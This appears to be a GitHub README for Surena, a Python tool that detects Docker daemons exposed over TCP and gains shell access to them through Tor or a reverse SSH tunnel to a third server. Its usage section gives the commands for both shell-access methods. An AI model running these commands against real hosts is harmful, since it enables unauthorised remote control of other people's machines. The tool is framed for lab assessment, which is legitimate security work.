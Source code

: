 # Surena

Surena is a tool developed to assess vulnerabilities in Docker daemons when their ports are exposed to a TCP network. It is developed using Click, a Python CLI library, and the Docker SDK for Python. Surena demonstrates how a hacker can gain shell access from an insecure Docker host using two methods: Tor Network and SSH Reverse Tunneling.

To explain how Surena works and how to use these methods, we have written an article on Medium that you can read by following this link: Medium Article.

## Installation

You can install Surena from PyPI by running the following command:

```bash
pip install surena
```

Once installed, you can run Surena using the following commands in your terminal. To view the available commands and options, use:

```bash
surena --help
```

Surena has two commands: `is-docker-host` and `get-docker-host`.


The `is-docker-host` command is used for checking if the Docker daemon's port is accessible from the network. To understand its options, run the following command:

```bash
surena is-docker-host --help
```

For example, you can run this command with the following options:

```bash
surena is-docker-host --docker-host-address $DOCKER_HOST_IP --docker-host-port $DOCKER_HOST_PORT
```



The `get-docker-host` command is used to gain shell access from the Docker daemon using two methods. To understand its options, run the following command:

```bash
surena get-docker-host --help
```

For example, to gain shell access using the Tor Network method, run this command with the following options:

```bash
surena get-docker-host --docker-host-address $DOCKER_HOST_IP --docker-host-port $DOCKER_HOST_PORT --access-method tor
```

To gain shell access using the Reverse SSH Tunneling method, run this command with the following options:

```bash
surena get-docker-host --docker-host-address $DOCKER_HOST_IP --docker-host-port $DOCKER_HOST_PORT --access-method reverse-ssh --ssh-server-address $THIRD_SERVER_IP --ssh-server-username $THIRD_SERVER_USERNAME --ssh-server-password $THIRD_SERVER_PASSWORD --ssh-server-port $THIRD_SERVER_SSH_PORT
```

Please note that `$DOCKER_HOST_IP`, `$DOCKER_HOST_PORT`, `$THIRD_SERVER_IP`, `$THIRD_SERVER_USERNAME`, `$THIRD_SERVER_PASSWORD`, and `$THIRD_SERVER_SSH_PORT` should be replaced with the appropriate values.


Please note: Surena is intended for lab use and for understanding whether your Docker daemon is secure or insecure. DO NOT USE SURENA FOR MALICIOUS ACTIVITIES.

